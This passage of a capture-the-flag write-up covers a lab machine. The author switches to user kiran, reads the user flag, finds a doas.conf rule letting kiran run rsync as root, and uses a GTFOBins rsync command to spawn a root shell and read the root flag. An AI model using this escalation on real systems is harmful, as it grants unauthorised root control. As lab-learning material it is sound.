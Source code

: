 Switch to user **kiran** and simply get the user flag:

```
www-data@ubuntu-xenial:/var/backups$ su kiran
su kiran
Password: [REDACTED]

kiran@ubuntu-xenial:/var/backups$ id
id
uid=1002(kiran) gid=1002(kiran) groups=1002(kiran)
```

```
kiran@ubuntu-xenial:/var/backups$ cd
cd
kiran@ubuntu-xenial:~$ ls -la
ls -la
total 28
drwxr-xr-x 5 kiran kiran 4096 Dec  9  2020 .
drwxr-xr-x 3 root  root  4096 Dec  7  2020 ..
-rw------- 1 kiran kiran    0 Dec  9  2020 .bash_history
drwx------ 2 kiran kiran 4096 Dec  9  2020 .cache
drwxr-x--- 3 kiran kiran 4096 Dec  6  2020 .config
drwx------ 2 kiran kiran 4096 Dec  6  2020 .gnupg
-rw-r--r-- 1 kiran kiran  670 Dec  9  2020 .profile
-r-------- 1 kiran kiran   33 Dec  9  2020 user.txt
kiran@ubuntu-xenial:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Vertical Privilege Escalation

I use `grep` command to scan all the information that relate to the current user **kiran** and discover an interest thing:

```
kiran@ubuntu-xenial:/$ grep -R "kiran" 2>/dev/null | grep "pass"
grep -R "kiran" 2>/dev/null | grep "pass"
usr/local/etc/doas.conf: permit nopass kiran as root cmd rsync
```

The `doas.conf` and the following message that permit the user **kiran** to execute `rsync` command as **root.**

<p class="message">
💡 This means the <code>doas</code> command is such like as <code>sudo</code> which allow the current user to execute the other commands (in this situation is <code>rsync</code>) as another user (<strong>root</strong>).

</p>

Combining with [GTFOBins](https://gtfobins.github.io/gtfobins/rsync/), the exploit command would be like this:

```
kiran@ubuntu-xenial:/$ doas rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
< rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
# whoami;id
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
[REDACTED]
```
